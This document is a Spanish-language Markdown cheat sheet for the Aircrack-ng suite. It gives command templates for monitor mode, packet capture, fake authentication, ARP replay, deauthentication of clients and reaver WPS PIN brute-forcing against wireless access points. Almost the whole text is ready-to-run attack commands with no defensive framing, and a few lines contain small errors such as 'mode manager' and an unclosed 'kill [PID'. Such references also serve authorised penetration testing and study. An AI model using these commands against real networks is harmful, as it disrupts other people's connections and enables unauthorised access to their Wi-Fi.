 # Suite Aircrack

## airmon-ng
#### Ver interfaces en modo monitor
```
airmon-ng
```
#### Comenzar Modo monitor
```
airmon-ng start <interface>
```
```
ifconfig <interface> down
ifconfig <interface> mode monitor
ifconfig <interface> up
```
#### Terminar Modo monitor
```
airmon-ng stop <interface>
```
```
ifconfig <interface> down
ifconfig <interface> mode manager
ifconfig <interface> up
```
#### Verificar demonios
```
airmon-ng check
```

#### Matar demonios
```
airmon-ng check kill
kill [PID
```

## airodump-ng
<dl>
  <dt> Escanear el espectro </dt>
  <dd> airodump-ng < interfaces > </dd>

  <dt>Escanear una encriptacion especifico y que tenga WPS durante 10 segundos "1.0 WPS"</dt>
  <dd>timeout 10 airodump-ng --wps --encrypt WEP/WAP/OPN < interfaces > </dd>

  <dt>Escanear un CANAL, AP en un archivo de un cliente/s WAP</dt>
  <dd>airodump-ng --bssid < macAP >_ -c < canal > -w < archivo > -a <macHost>,<macHost>  < interfaces> </dd>

  <dt>Escanear un CANAL, AP en un archivo con IVS  WEP</dt>
  <dd>airodump-ng --bssid < macAP > -c < canal > -w < archivo > --ivs < interfaces > </dd>

  <dt>Leer un archivo escrito </dt>
  <dd>airodump-ng -r < file-001.cap > </dd>
</dl>

## aireplay-ng



aireplay-ng --fakeauth [0/1] -a < macAP > -h < macHost > < interfaces >
airodump-ng -w < Archivo > --bssid < macAP >
iwconfig < interfacesmon0 > channel < canal >
iwconfig < interfaces > channel < canal >
aireplay-ng --arpreplay  -b < macAP > -h < macHost > < interfaces >


airodump-ng -w < Archivo > --bssid < macAP >
aireplay-ng --deauth [n/0] -a < macAP > < interfaces >
aireplay-ng --deauth [n/0] -a < macAP > -c < macHost > < interfaces >


airodump-ng -w < Archivo > --bssid < macAP >
aireplay-ng --interactive -b <macAP> -h <macHost> < interfaces >
aireplay-ng --interactive -b <macAP> -h <macHost> -r < Archivo > < interfaces >


aireplay-ng --test < interfaces >




## reaver
airodump-ng --wps < interfaces >
wash -i < interfaces >
reaver -i < interfaces > -b < macAP > -d 30 -S -N -vv 
